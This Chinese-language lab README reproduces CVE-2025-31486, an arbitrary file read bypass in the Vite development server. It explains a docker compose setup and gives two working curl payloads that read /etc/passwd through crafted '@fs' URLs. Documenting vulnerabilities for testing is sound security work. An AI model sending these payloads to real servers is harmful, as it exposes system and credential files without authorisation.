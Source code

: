 # Vite开发服务器任意文件读取漏洞绕过（CVE-2025-31486）

Vite是一个现代前端构建工具，为Web项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用Rollup打包代码的构建命令。

在Vite 6.2.5, 6.1.4, 6.0.14, 5.4.17 和 4.5.12版本之前，用于限制访问Vite服务允许列表之外的文件的`server.fs.deny`功能可被绕过。通过在URL的`@fs`前缀后增加`?.svg?.wasm?init`或者通过相对路径 `/@fs/{{project_path}}/?/../../../../../../etc/passwd?import&?raw`，攻击者可以读取文件系统上的任意文件。

这个漏洞是[CVE-2025-31125](../CVE-2025-31125/README.zh-cn.md)补丁的绕过。

参考链接：

- <https://github.com/vitejs/vite/security/advisories/GHSA-xcj6-pq6g-qj4x>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-31486>

## 环境搭建

执行以下命令启动Vite 6.2.4开发服务器：

```
docker compose up -d
```

服务器启动后，可以通过访问`http://your-ip:5173`来访问 Vite 开发服务器。

> 注意：旧版本Vite的开发服务器默认端口为3000，新版本默认端口为5173，请注意区分。

## 漏洞复现

通过在URL后附加`?.svg?.wasm?init`，你就可以绕过这个限制并获取文件内容：

```
curl "http://your-ip:5173/@fs/etc/passwd?.svg?.wasm?init"
```

这个请求将会返回`/etc/passwd`文件的内容：

![](1.png)

除了上面的Payload，你也可以使用`/@fs/{{project_path}}/?/../../../../../../etc/passwd?import&?raw`来达到相同的效果。

靶场中的 project_path 为：`/usr/src/`，可以通过访问 `/@fs/etc/passwd` 从响应中获取

![](2.png)

下一步发送 payload

```
curl "http://your-ip:5173/@fs/usr/src/?/../../../../../../etc/passwd?import&?raw"
```

这个请求将会返回`/etc/passwd`文件的内容：

![](3.png)

